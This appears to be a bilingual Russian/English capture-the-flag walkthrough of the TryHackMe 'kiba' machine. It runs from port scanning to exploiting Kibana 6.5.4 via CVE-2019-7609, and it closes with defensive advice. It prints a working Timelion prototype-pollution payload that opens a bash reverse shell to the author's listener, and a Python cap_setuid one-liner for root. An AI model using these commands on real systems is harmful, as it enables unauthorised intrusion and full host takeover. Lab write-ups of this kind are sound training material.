



# kiba


---

### 🇬🇧 Task Description

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

### 🇷🇺 Описание задачи

Нужно найти критическую уязвимость в dashboard для визуализации данных, которая позволяет выполнить удалённое выполнение кода.

---

#### ✅ Ответ на первый вопрос



**Question:** What is the vulnerability that is specific to programming languages with prototype-based inheritance?

**Перевод:** Какая уязвимость характерна для языков программирования с прототипным наследованием?

**Answer:** `Prototype pollution`

Prototype Pollution — это уязвимость, характерная для языков с прототипным наследованием, например JavaScript. Она возникает, когда атакующий может изменить свойства базового prototype-объекта, из-за чего эти свойства начинают наследоваться другими объектами в приложении.

---

### 🔍 Шаг 1: Разведка (Reconnaissance)

Первым делом проверяем доступность целевой машины и смотрим, какие сервисы открыты.

#### 🏓 Проверка доступности (ping)

```bash
ping -c 4 10.130.128.36
```

**Результат:**

```text
PING 10.130.128.36 (10.130.128.36) 56(84) bytes of data.
64 bytes from 10.130.128.36: icmp_seq=1 ttl=62 time=525 ms
64 bytes from 10.130.128.36: icmp_seq=2 ttl=62 time=150 ms
64 bytes from 10.130.128.36: icmp_seq=3 ttl=62 time=80.6 ms
64 bytes from 10.130.128.36: icmp_seq=4 ttl=62 time=219 ms

--- 10.130.128.36 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3010ms
rtt min/avg/max/mdev = 80.559/243.646/525.476/169.872 ms
```

✅ Хост жив! `ttl=62` указывает на Linux-систему. Потерь нет, можно переходить к сканированию портов.

---

#### ⚡ Сканирование портов (nmap)

```bash
nmap -sC -sV 10.130.128.36
```

**Описание флагов:**
- `-sC` — запуск стандартных NSE-скриптов для базовой разведки.
- `-sV` — определение версий сервисов на открытых портах.

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-15 16:29 +0300
Nmap scan report for 10.130.128.36
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

#### 📊 Результаты сканирования

Обнаружено **2 открытых порта**:

| Порт | Сервис | Версия | Примечание |
|------|--------|--------|------------|
| 22/tcp | SSH | OpenSSH 7.2p2 | Возможная точка входа после получения учётных данных |
| 80/tcp | HTTP | Apache 2.4.18 | Веб-сервер на Ubuntu |

Открываем сайт в браузере:



На главной странице видим ASCII-art и подсказку:

```text
Welcome, "linux capabilities" is very interesting.
```

💡 Эта фраза сразу намекает на будущий этап повышения привилегий через **Linux capabilities**.

---

### 🧭 Шаг 2: Полное сканирование всех портов

Базовый `nmap` проверяет только самые популярные TCP-порты, поэтому запускаем полное сканирование всех 65535 портов:

```bash
nmap -T5 -p- -sS -n --min-rate 5000 10.130.128.36
```

**Описание флагов:**
- `-T5` — максимально агрессивный тайминг сканирования.
- `-p-` — проверить все TCP-порты.
- `-sS` — SYN-сканирование.
- `-n` — не выполнять DNS-резолвинг.
- `--min-rate 5000` — отправлять не меньше 5000 пакетов в секунду.

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-15 16:40 +0300
Warning: 10.130.128.36 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.130.128.36
Host is up (0.69s latency).
Not shown: 46958 closed tcp ports (reset), 18574 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc

Nmap done: 1 IP address (1 host up) scanned in 37.95 seconds
```

🎯 Полное сканирование нашло дополнительный открытый порт — **5044/tcp**. Базовый скан его не показал, поэтому дальше исследуем именно его.

---

#### 🔎 Детальная проверка порта 5044

```bash
nmap -A -p 5044 10.130.128.36
```

**Описание флагов:**
- `-A` — агрессивное сканирование: определение версии сервиса, ОС, запуск NSE-скриптов и traceroute.
- `-p 5044` — проверяем только найденный порт `5044`.

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-15 16:41 +0300
Nmap scan report for 10.130.128.36
Host is up (0.11s latency).

PORT     STATE SERVICE      VERSION
5044/tcp open  lxi-evntsvc?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (95%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops

TRACEROUTE (using port 5044/tcp)
HOP RTT      ADDRESS
1   98.40 ms 192.168.128.1
2   ...
3   98.56 ms 10.130.128.36
```

`nmap` не смог уверенно определить сервис и пометил его как `lxi-evntsvc?`. В контексте комнаты **kiba** и вопроса про dashboard это выглядит как зацепка: нужно проверить, не спрятана ли Kibana или связанный с Elastic Stack сервис на нестандартном порту.

---

### 🧭 Шаг 3: Повторное полное сканирование с меньшей скоростью

Первый полный скан запускался очень агрессивно: `-T5` и `--min-rate 5000`. В выводе также было предупреждение:

```text
Warning: 10.130.128.36 giving up on port because retransmission cap hit (2).
```

Это значит, что `nmap` переставал повторно проверять часть портов после достижения лимита retransmission. На нестабильном соединении или при высокой задержке такой быстрый скан может пропустить открытый порт. Поэтому повторяем полное сканирование спокойнее — с меньшим `--min-rate`:

```bash
nmap -p- --min-rate 1000 -sS -n 10.130.128.36
```

**Описание флагов:**
- `-p-` — проверить все TCP-порты.
- `--min-rate 1000` — отправлять не меньше 1000 пакетов в секунду.
- `-sS` — SYN-сканирование.
- `-n` — не выполнять DNS-резолвинг, то есть не пытаться преобразовать IP-адрес в доменное имя. Это ускоряет сканирование, а на TryHackMe обычно не требуется, потому что мы работаем напрямую с IP.

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-15 17:26 +0300
Nmap scan report for 10.130.128.36
Host is up (0.072s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent

Nmap done: 1 IP address (1 host up) scanned in 77.71 seconds
```

🎯 На этот раз обнаружился ещё один открытый порт — **5601/tcp**. Это стандартный порт для **Kibana**, поэтому проверяем его подробнее.

---

#### 🔎 Детальная проверка порта 5601

```bash
nmap -A -p 5601 10.130.128.36
```

**Результат:**

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-15 17:30 +0300
Nmap scan report for 10.130.128.36
Host is up (0.073s latency).

PORT     STATE SERVICE VERSION
5601/tcp open  http    Elasticsearch Kibana (serverName: kibana)
| http-title: Kibana
|_Requested resource was /app/kibana
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (94%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   79.65 ms 192.168.128.1
2   ...
3   79.78 ms 10.130.128.36
```

✅ Теперь точно видим, что на `5601/tcp` работает **Elasticsearch Kibana**. `nmap` подтвердил сам dashboard, но версию Kibana пока не показал, поэтому второй вопрос ещё не закрываем.

---

### 📊 Шаг 4: Получение версии через Kibana

Открываем найденный dashboard в браузере:

```text
http://10.130.128.36:5601
```

Попадаем в **Kibana** — веб-интерфейс из Elastic Stack. Kibana используется для поиска, анализа и визуализации данных, которые хранятся в Elasticsearch: графики, dashboards, логи, метрики и Dev Tools для запросов к Elasticsearch API.

Переходим в **Dev Tools → Console** и выполняем запрос:

```text
GET /
```



В ответе видим JSON с информацией о кластере:

```json
{
  "name": "gXxhSx",
  "cluster_name": "elasticsearch",
  "version": {
    "number": "6.5.4",
    "build_flavor": "default",
    "build_type": "deb",
    "lucene_version": "7.5.0"
  },
  "tagline": "You Know, for Search"
}
```

Почему `GET /` вернул версию? В Dev Tools Kibana Console запросы отправляются не к самой HTML-странице Kibana, а к API Elasticsearch. Корневой endpoint Elasticsearch (`GET /`) по умолчанию возвращает служебную информацию о кластере: имя ноды, имя кластера, версию, тип сборки и версию Lucene.

В этой комнате Kibana и Elasticsearch относятся к одному Elastic Stack, поэтому найденная версия `6.5.4` закрывает вопрос о версии установленного visualization dashboard.

---

#### ✅ Ответ на второй вопрос

**Question:** What is the version of visualization dashboard installed in the server?

**Перевод:** Какая версия dashboard для визуализации установлена на сервере?

**Answer:** `6.5.4`

---

### 🧨 Шаг 5: Поиск CVE для найденной версии Kibana

После получения версии Kibana `6.5.4` ищем известные уязвимости для этой версии. Находим уязвимость **CVE-2019-7609**, связанную с Kibana и Prototype Pollution, которая может привести к удалённому выполнению кода.

Полезный репозиторий с описанием и exploit-кодом:

[mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

---

#### ✅ Ответ на третий вопрос

**Question:** What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

**Перевод:** Какой CVE-номер у этой уязвимости? Формат ответа: CVE-0000-0000

**Answer:** `CVE-2019-7609`

---

### 🐚 Шаг 6: Эксплуатация CVE-2019-7609 и reverse shell

Сначала на своей машине поднимаем listener, который будет ждать обратное подключение:

```bash
nc -lvnp 4444
```

В Kibana переходим в **Timelion** и вставляем payload:

```text
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/192.168.172.138/4444 0>&1\'");//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

Нажимаем **Run**. Важно: после нажатия **Run** визуально может ничего не измениться, потому что на этом этапе payload только загрязняет prototype и добавляет переменные окружения:

- `AAAA` — содержит JavaScript-код, который запускает reverse shell через `child_process.exec`.
- `NODE_OPTIONS=--require /proc/self/environ` — заставляет новый Node.js-процесс загрузить `/proc/self/environ` как JavaScript.

Чтобы код реально выполнился, нужен запуск нового Node.js-процесса внутри Kibana. Для этого переходим слева в **Canvas**. Canvas используется как триггер: при открытии этого раздела Kibana запускает дополнительную Node.js-логику, которая подхватывает загрязнённые переменные окружения и выполняет наш JavaScript-код.

После перехода в Canvas на listener приходит reverse shell:

```text
connect to [192.168.172.138] from (UNKNOWN) [10.129.131.78] 52710
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$
```

✅ Получили shell от пользователя `kiba`.

Переходим в домашнюю директорию пользователя и читаем первый флаг:

```bash
cd /home/kiba
cat user.txt
```

**Результат:**

```text
THM{****************************}
```

---

#### ✅ Ответ на четвёртый вопрос

**Question:** Compromise the machine and locate user.txt

**Перевод:** Скомпрометируйте машину и найдите `user.txt`.

**Answer:** `THM{****************************}`

---

### 🧬 Шаг 7: Поиск Linux capabilities

На главной странице веб-сервера мы уже видели подсказку:

```text
Welcome, "linux capabilities" is very interesting.
```

После получения shell проверяем capabilities на файловой системе. В вопросе TryHackMe также прямо подсказывает эту тему.

#### ❓ Разбор вопроса про capabilities

**Question:** Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

**Перевод:** Capabilities — это концепция безопасности, которая позволяет “разделить” root-привилегии на отдельные значения.

Смысл Linux capabilities в том, что процессу или исполняемому файлу можно выдать не все права root сразу, а только конкретную привилегию. Например:

- `cap_net_raw` — разрешает работать с raw-сокетами, поэтому встречается у сетевых утилит вроде `ping`, `mtr`, `traceroute`.
- `cap_dac_override` — позволяет обходить стандартные проверки прав доступа к файлам.
- `cap_sys_ptrace` — позволяет трассировать процессы.
- `cap_setuid` — позволяет процессу менять свой UID, в том числе на `0`, то есть стать root.

Именно `cap_setuid` особенно интересен для повышения привилегий.

---

#### 🔎 Рекурсивный поиск capabilities

Используем команду:

```bash
getcap -r / 2>/dev/null
```

**Разбор команды:**
- `getcap` — показывает Linux capabilities, назначенные файлам.
- `-r /` — рекурсивно пройтись от корня файловой системы `/`.
- `2>/dev/null` — перенаправить ошибки в `/dev/null`, чтобы скрыть сообщения вида `Permission denied` и оставить только полезный вывод.

**Результат:**

```text
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

Самая важная находка:

```text
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```

Это нестандартный бинарник Python в домашней директории пользователя `kiba`. У него есть capability `cap_setuid+ep`, то есть он может менять UID процесса. Если запустить через него Python-код и вызвать `os.setuid(0)`, можно получить shell уже с UID `0`.

Буквы `ep` означают:

- `e` (`effective`) — capability активна при выполнении файла.
- `p` (`permitted`) — capability разрешена для процесса.

---

#### ✅ Ответ на пятый вопрос

**Question:** How would you recursively list all of these capabilities?

**Перевод:** Как рекурсивно вывести все эти capabilities?

**Answer:** `getcap -r / 2>/dev/null`

---

### 👑 Шаг 8: Повышение привилегий через `cap_setuid`

После поиска capabilities мы нашли нестандартный Python-бинарник:

```text
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```

Это значит, что данный `python3` может менять UID процесса. Так как capability `cap_setuid` активна (`e`) и разрешена (`p`), мы можем запустить Python-код, который установит UID в `0`, то есть root.

Запускаем:

```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

**Разбор команды:**
- `/home/kiba/.hackmeplease/python3` — запускаем найденный Python-бинарник с capability `cap_setuid+ep`.
- `-c` — передаём Python-код прямо в командной строке.
- `import os` — импортируем модуль `os`, который позволяет работать с системными вызовами.
- `os.setuid(0)` — меняем UID текущего процесса на `0`. UID `0` в Linux соответствует пользователю `root`.
- `os.system("/bin/bash")` — запускаем новый Bash уже после смены UID, то есть получаем shell с root-привилегиями.

После выполнения команды проверяем доступ к `/root`:

```bash
cd /root
ls
```

**Результат:**

```text
root.txt
ufw
```

Читаем root-флаг:

```bash
cat root.txt
```

**Результат:**

```text
THM{************************************}
```

---

#### ✅ Ответ на шестой вопрос

**Question:** Escalate privileges and obtain root.txt

**Перевод:** Повысьте привилегии и получите `root.txt`.

**Answer:** `THM{************************************}`

---

## 🏁 Итог

Машина **kiba** успешно пройдена по цепочке атак:

> 🔍 Recon → 🌐 Hidden Kibana (порт 5601) → 📊 Version Disclosure → 🧬 Prototype Pollution → 💥 CVE-2019-7609 RCE → 🐚 Reverse Shell as kiba → 🔎 Linux Capabilities Enumeration → 🐍 Python `cap_setuid` Abuse → 👑 Root

**Ключевые точки:**

- 🔎 **Повторное полное сканирование портов** — первый агрессивный скан пропустил `5601/tcp` из-за retransmission cap, а более спокойный `nmap -p- --min-rate 1000` обнаружил Kibana.
- 📊 **Kibana/Elastic Stack** — через Dev Tools и запрос `GET /` получили информацию о кластере и версию `6.5.4`.
- 🧨 **CVE-2019-7609** — найденная версия Kibana оказалась уязвима к Prototype Pollution в Timelion, что позволило подготовить RCE.
- 🎨 **Canvas как триггер** — после запуска payload в Timelion визуально ничего не происходит; переход в Canvas запускает Node.js-логику, которая подхватывает `NODE_OPTIONS` и выполняет код из `/proc/self/environ`.
- 🐚 **Reverse Shell** — через `child_process.exec` получили shell от пользователя `kiba` и забрали `user.txt`.
- 🧬 **Linux capabilities** — подсказка на веб-странице привела к проверке `getcap -r / 2>/dev/null`, где обнаружился нестандартный Python с `cap_setuid+ep`.
- 👑 **Privilege Escalation** — Python с `cap_setuid` позволил вызвать `os.setuid(0)` и запустить `/bin/bash` уже с root-привилегиями.

**Рекомендации по защите:**

- 🔄 Обновить Kibana/Elastic Stack до версии, не уязвимой к CVE-2019-7609.
- 🔒 Не выставлять Kibana напрямую наружу; ограничить доступ VPN, firewall-правилами или reverse proxy с аутентификацией.
- 🛡️ Отключить или ограничить опасные возможности Timelion/Dev Tools для неавторизованных пользователей.
- ❌ Не назначать `cap_setuid` интерпретаторам вроде Python, Perl, Ruby, Node.js — это почти прямой путь к root.
- 🔍 Регулярно проверять capabilities командой `getcap -r / 2>/dev/null` и удалять лишние права через `setcap -r`.
- 🧹 Убирать подсказки и служебные сообщения с публичных страниц, особенно если они раскрывают направление повышения привилегий.

---

Автор: **masquadd** 👾
